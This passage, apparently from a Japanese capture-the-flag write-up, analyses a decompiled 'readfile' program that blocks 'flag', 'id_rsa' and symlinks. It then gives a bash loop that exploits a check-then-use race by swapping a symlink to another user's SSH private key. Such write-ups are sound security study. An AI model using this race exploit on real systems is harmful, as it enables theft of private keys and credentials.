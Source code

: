 ```c
      }
    }
    else {
      puts("File Not Found");
      uVar3 = 1;
    }
  }
  else {
    puts("Usage: ./readfile <FILE>");
    uVar3 = 1;
  }
  return uVar3;
}
```

渡したファイル名に対し、下記の条件をチェックしている。

1. 引数のファイル名が存在すること
2. 引数のファイル名に flag が入っいないこと
3. 引数のファイル名に id_rsa が入っていないこと
4. 引数のファイルはシンボリックリンクではないこと
5. 引数のファイルは読み取り可能であること

`(param_2 + 8)`のように 8 を足しているのは、argv[1] のオフセットを意味している。

注意点として、1 の後に getuid を実行しているため、john から見てファイルが存在することが必要。  
従って、"File Not Found"が表示されたからと言って、本当に存在しないとは限らない。

id_rsa を読むことを目標にするとしたら、

```
lstat(*(char **)(param_2 + 8),&local_4b8);
local_1c = (uint)((local_4b8.st_mode & 0xf000) == 0xa000);
```

を実行するタイミングではシンボリックリンクではないが、

```
if ((((local_10 == (char *)0x0) && (local_1c == 0)) && (local_20 != -1)) &&
    (local_18 == (char *)0x0)) {
```

の if 内を実行するタイミングではシンボリックリンクであれば読めることになる。

この 2 つの処理の間には、スリープが入っているのでそれなりに発生しやすいと期待できる。

```
usleep(0);
```

loop.sh

```sh
#!/bin/bash

TARGET_FILE="/home/youcef/.ssh/id_rsa"
LINK_NAME="/home/john/A"

while true; do
  # シンボリックリンクAを作成
  ln -sf "$TARGET_FILE" "$LINK_NAME"

  # A（シンボリックリンク）を削除
  rm -f "$LINK_NAME"

  # Aという名前の普通のファイルを作成
  touch "$LINK_NAME"
done
```
